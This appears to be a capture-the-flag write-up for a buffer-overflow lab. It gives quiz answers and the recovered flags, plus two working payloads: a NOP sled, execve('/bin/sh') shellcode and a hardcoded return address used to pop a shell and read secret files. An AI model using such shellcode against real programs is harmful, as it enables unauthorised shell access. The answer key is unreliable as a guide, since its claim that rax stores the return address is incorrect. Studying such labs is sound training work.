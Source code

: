 # Buffer Overflows

### Process Layout
- Where is dynamically allocated memory stored? `heap`
- Where is information about functions(e.g. local arguments) stored? `stack`

### x86-64 Procedures
- what direction does the stack grown(l for lower/h for higher) `l`
- what instruction is used to add data onto the stack? `push`

### Procedures Continued
- What register stores the return address? `rax`

### Overwriting Variables
- What is the minimum number of characters needed to overwrite the variable? `15`

### Buffer Overflows
- Use the above method to open a shell and read the contents of the secret.txt file.<br />
The payload that worked for me is: <br />
`./buffer-overflow $(python -c "print '\x90'*86+'\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'A'*12 + '\x98\xe2\xff\xff\xff\x7f'")`<br />
`omgyoudidthissocool!!`

### Buffer Overflow 2
- Use the same method to read the contents of the secret file!<br />
The payload that worked for me is: <br />
`./buffer-overflow-2 $(python -c "print '\\x90'*86 + '\\x31\\xff\\x66\\xbf\\xeb\\x03\\x6a\\x71\\x58\\x48\\x89\\xfe\\x0f\\x05\\x6a\\x3b\\x58\\x48\\x31\\xd2\\x49\\xb8\\x2f\\x2f\\x62\\x69\\x6e\\x2f\\x73\\x68\\x49\\xc1\\xe8\\x08\\x41\\x50\\x48\\x89\\xe7\\x52\\x57\\x48\\x89\\xe6\\x0f\\x05\\x6a\\x3c\\x58\\x48\\x31\\xff\\x0f\\x05' + 'A'*23 + '\\xa8\\xe2\\xff\\xff\\xff\\x7f'")`<br />
`wowanothertime!!`
